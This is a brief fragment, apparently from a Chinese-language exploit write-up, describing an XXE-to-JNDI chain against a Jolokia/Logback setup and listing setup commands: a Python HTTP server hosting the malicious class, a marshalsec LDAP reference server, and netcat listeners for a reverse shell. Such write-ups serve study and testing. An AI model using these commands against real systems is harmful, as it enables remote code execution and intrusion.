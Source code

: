 ![](./image/image-20241102141814771.png)

漏洞执行流程：服务器访问xml文件，通过xxe漏洞去访问ldap，然后跳转到JNDI恶意类加载

切换到resources文件夹，工具的监听端口是nc的端口，不是80

```bash
python -m http.server 80

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:80/\#JolokiaLogback 1389
```

```bash
nc -lvp 9090 #linux
nc -lvk 9090 #mac
```

